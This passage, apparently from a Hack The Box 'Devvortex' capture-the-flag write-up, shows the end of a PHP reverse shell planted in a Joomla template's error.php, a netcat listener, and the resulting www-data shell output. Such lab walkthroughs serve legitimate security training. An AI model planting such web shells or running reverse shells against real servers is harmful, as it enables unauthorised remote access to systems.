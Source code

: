 ```php
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
And save it.

we start netcat and call our shell from a web page 
(http://dev.devvortex.htb/administrator/templates/atum/error.php)
 ...
 It WORK!
```bash
nc -lnvp 1234                                                            

listening on [any] 1234 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.11.242] 55306
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 22:19:38 up  3:19,  0 users,  load average: 0.06, 0.44, 0.68
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ env
USER=www-data
HOME=/var/www
PWD=/

```
